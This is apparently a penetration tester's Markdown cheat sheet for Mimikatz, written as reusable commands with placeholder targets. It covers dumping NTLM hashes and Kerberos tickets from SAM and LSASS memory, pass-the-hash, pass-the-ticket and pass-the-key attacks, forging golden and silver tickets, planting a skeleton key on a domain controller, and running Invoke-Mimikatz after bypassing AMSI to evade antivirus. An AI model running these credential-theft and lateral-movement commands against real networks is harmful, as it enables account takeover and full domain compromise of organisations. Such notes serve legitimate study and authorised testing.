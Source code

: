 # Using Mimikatz
Mimikatz needs to be run with administrative privileges (on the local machine), and provides its own command prompt. Use the `privilege::debug` command to check if you’re running with the right privileges.

## Pass the Hash
NTLM hashes in LSASS memory - NTLM hashes in the local SAM = NTLM hashes for domain users!

### Local SAM
This provides NTLM hashes for *local* users:

```
privilege::debug
token::elevate
lsadump::sam
```

### LSASS Memory
This provides NTLM hashes for *recently logged in* users:

```
privilege::debug
token::elevate
sekurlsa::msv
```

### Inject an NTLM Hash Into a Process
Commands (including reverse shells, if the necessary binaries/scripts are available) can be launched from Mimikatz using the extracted NTLM hash for authentication. Note that this *doesn’t* work if your privileges are elevated (weird, right?), hence the initial `token::revert` command:

```
token::revert
sekurlsa::pth /user:$TARGET_USER /domain:$TARGET_DOMAIN /ntlm:$TARGET_USER_NTLM_HASH /run:"$FULL_COMMAND_INCLUDING_ARGUMENTS"
```

The shell produced in this way is a bit weird, as it is actually running as the user that launched Mimikatz (which will show up if you call `whoami`, though the privileges will be those of the `$TARGET_USER`.

A number of Linux commands can also take NTLM hashes instead of passwords:

```bash
# XFreeRDP
#
xfreerdp /v:$TARGET_HOST \
         /u:$TARGET_DOMAIN\$TARGET_USER \
         /pth:$TARGET_USER_NTLM_HASH

# Psexec.py (but ONLY on Linux; this won’t work on Windows!)
#
psexec.py -hashes $TARGET_USER_NTLM_HASH \
                  $TARGET_DOMAIN\$TARGET_USER@$TARGET_HOST

# Evil-WinRM
#
evil-winrm -i $TARGET_HOST \
           -u $TARGET_USER \
           -H $TARGET_USER_NTLM_HASH
```

### Additional Resources
* [TryHackMe: Lateral Movement and Pivoting](https://tryhackme.com/room/lateralmovementandpivoting)

## Dumping Tickets
Mimikatz can dump ticket granting tickets (and session keys) from the memory of Windows’ Local Security Authority Subsystem Service (LSASS); these can then be used to for privilege elevation or lateral movement (depending on which users are active on that machine).

Use the `sekurlsa::tickets /export` command to dump any Kerberos “tickets” (really ticket + session key data structures) from LSASS’s memory as `.kirbi` files. Tickets are named like `ID-USER-SERVICE-DOMAIN.kirbi`; ticket granting tickets have a `krbtgt` SERVICE name. If you can find a `krbtgt` ticket belonging to an administrator account, then you’ve (almost) struck gold.

### Additional Resources
* [Kerberos](./Kerberos.md)

## Pass the Ticket Attacks
Mimikatz can extract Kerberos TGT/TGS tickets and session keys:

```
privilege::debug
sekurlsa::tickets /export
```

Note that TGTs for all users are available if you can run as SYSTEM; these allow TGS tickets to be requested for any service the corresponding user has access to. If you’re not running as SYSTEM, then you can get TGS tickets for the *current* user, which will give you access to those services the current user has permission to use (and has accessed recently).

Mimikatz can then inject tickets into the current session:

```
kerberos::ptt $KIRBI_FILENAME_FOR_TICKET_TO_INJECT
```

This allows the account you’re logged in as to (automatically!) “pass the ticket” and impersonate the user whose ticket you’ve harvested. The Windows built-in command `klist` will provide a list of currently active tickets.

### Additional Resources
* [TryHackMe: Lateral Movement and Pivoting](https://tryhackme.com/room/lateralmovementandpivoting)

## Pass the Key Attacks
“Pass the key” attacks rely on the fact that Kerberos TGTs are granted based on an encrypted timestamp, so if we can get access to these objects we can request TGTs as the corresponding user. Turns out that these also hang out in memory and can be extracted with Mimikatz:

```
privilege::debug
sekurlsa::ekeys
```

These keys can be injected into a command environment just like an NTLM hash, though you need to know how they’re encrypted. For example, for an AES256 encrypted key:

```
token::revert
sekurlsa::pth /user:$TARGET_USER /domain:$TARGET_DOMAIN /aes256:$TARGET_USER_KERBEROS_KEY /run:"$FULL_COMMAND_INCLUDING_ARGUMENTS"
```

Other options include `/aes128` and `/rc4` for those styles of encryption, though RC4 isn’t something that you’re likely to see as it’s weak and disabled by default. (Because of a historical quirk, the RC4 key is actually *not* a timestamp, but rather the user’s NTLM hash. So *iff* RC4 is enabled on a domain, then extracting a user’s NTLM hash is sufficient to request Kerberos TGTs as that user!)

### Additional Resources
* [TryHackMe: Lateral Movement and Pivoting](https://tryhackme.com/room/lateralmovementandpivoting)

## Golden/Silver Ticket Attacks
To generate a gold or silver ticket using Mimikatz, begin by running the `lsadump::lsa /inject /name:$SERVICE` command to retrieve the service SID and NTLM password hash for that service. If SERVICE is `krbtgt` then this will allow the creation of a golden ticket, otherwise you’ll be creating a silver ticket.

(You can also use a user name instead of `$SERVICE`, in which case it appears that Mimikatz will just request a ticket granting ticket from the KDC as that user in the next step; this is theoretically just as noisy as a golden ticket, but looks more “normal”.)

To actually create and cache the ticket, use `Kerberos::golden /user:$USER /domain:$DOMAIN /sid:$SID /krbtgt:$HASH /id:$TYPE`, where:

* `$USER` is the user to create the ticket for (probably the one you’ve compromised).
* `$DOMAIN` is the domain to create the ticket for.
* `$SID` is the SID of the service from the previous step.
* `$HASH` is the NT hash of the service password from the previous step.
* `$TYPE` is the type of Kerberos ticket to create; use 500 for a golden (ticket granting) ticket, and 1103 for a service ticket.

Once the ticket has been created, use `misc::cmd` to open a command prompt using the newly forged ticket.

### Additional Resources
* [Windows Password Hashes](./Windows%20Password%20Hashes.md)

## KDC Skeleton Key
If Mimikatz is run on a domain controller, it can modify the authentication service’s memory using the `misc::skeleton` command to cause it to attempt to decrypt the AS-REQ using *both* the user’s NT hash *and* an NT hash of your choosing (by default `60BA4FCADC466C7A033C178194C03DF6`, which is just `mimikatz`).  This means that you can send an AS-REQ as any user using the “skeleton key” hash to gain access as that user, similar to a golden ticket attack.

Obviously this isn’t very persistent itself, as the skeleton key will be lost if the server is rebooted or the authentication service restarted.

## Pure PowerShell Implementation
Mimikatz binaries are generally detected by AV on download these days, but fortunately there’s a PowerShell reimplementation available from the Empire Project that can be run after bypassing AMSI.

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"' > C:\mkat.txt
```

Note that Microsoft Defender will still detect the execution of Invoke-Mimikatz and kill the hosting PowerShell process. This is why we need to redirect the output to a file.

### Additional Resources
* [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
* [EmpireProject / Empire / data / module_source / credentials / Invoke-Mimikatz.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Mimikatz.ps1)
* [Using PowerShell](./Using%20PowerShell.md)
